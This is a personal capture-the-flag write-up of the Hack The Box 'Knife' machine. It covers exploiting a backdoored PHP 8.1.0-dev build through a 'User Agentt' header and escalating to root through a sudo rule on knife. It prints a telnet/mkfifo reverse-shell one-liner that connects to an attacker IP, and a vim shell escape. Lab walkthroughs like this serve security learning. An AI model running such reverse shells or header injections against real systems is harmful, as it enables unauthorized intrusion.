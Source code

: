 ```yaml
---
Started: 11-07-25 | 09:04
Ended: 11-07-25 | 11:22
---
```


#CTF/HTB/Linux/Medium

# Given

Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## IP

10.10.10.242

# Writeup

## Enumeration

I started with running Rustscan really quick to see what ports were open. I also had a full Nmap scan running in the background. I got two open ports:

- SSH(22)
- HTTP(80)

I started looking at port 80. It seemed to be a Linux based web server running `Apache/2.4.41 (Ubuntu)`. There's a website on it called `Emergent Medical Idea`.
There weren't any creds left behind in the source code, nor were there any working links. I started looking at the tech stack before going ahead with any sort of directory busting.

![](Assets/Pasted%20image%2020250711095943.png)
Aside from the version of Apache and what type of server this was, I got the technology the site was based on and version:

- PHP 8.1.0-dev

## Exploit

I ran this through `searchsploit` and got a hit on a Remote Code Execution vulnerability.

![](Assets/Pasted%20image%2020250711100152.png)
** Check out the details of the vulnerability on [exploitdb](https://www.exploit-db.com/exploits/49933)

## Foothold

Reading through the python script, it seemed use an additional request header called `User Agentt` to inject commands to the web server.
![](Assets/Pasted%20image%2020250711113836.png)

![](Assets/Pasted%20image%2020250711102856.png)

This isn't a proper shell though, so I had to create a reverse shell to my machine. I used [revshells](www.revshells.com) to generate a telnet based script and have it connect to my netcat listener.

```shell
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.2 4443 0<$TF | sh 1>$TF
```

This got me a basic shell onto the web server. I then had to upgrade it.

The user flag is in james's home directory

![](Assets/Pasted%20image%2020250711103147.png)

## Privilege Escalation

Now that I was in the web server as `james` I needed to escalate my privileges to get to `root`. I started with checking james's permissions on the server with `sudo -l`. This shows that james can run a script as root

![](Assets/Pasted%20image%2020250711103220.png)

I tried to add code to the file `knife`, and tried to replace it. Those didnt really work. So I had to google what knife was (and I tried hard to not look at writeups). I looked through gtfobins, found knife, and a simple way to escalate my privileges on this machine.

![](Assets/Pasted%20image%2020250711111918.png)

This got my shell upgraded to root, and I proceeded to get the flag in the home directory.

![](Assets/Pasted%20image%2020250711112110.png)

# Extra Notes

What if GTFO bins didn't have a privesc for Knife?

I first would need to know what knife is in the first place. Googling this got me [here](https://docs.chef.io/workstation/knife_setup/). TLDR: Knife is a command line utility that was created to communicate with Chef, which is a basically an automation platform.

## VIM Escape

The `knife data bag` subcommand allows users to interact with global variables as JSON objects.

I looked through the knife docs, and tried to create a bag, which I could hopefully edit with vim later. That didn't really work. 

![](Assets/Pasted%20image%2020250711120321.png)

So I tried to get the same command into vim like 0xdf does in his walkthrough, that didn't work either despite me restarting the server. 

Ideally, we should be able to edit the file on vim, and then run commands through vim's command line by running

```shell
!/bin/bash
```

# References

[0xdf - knife](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root)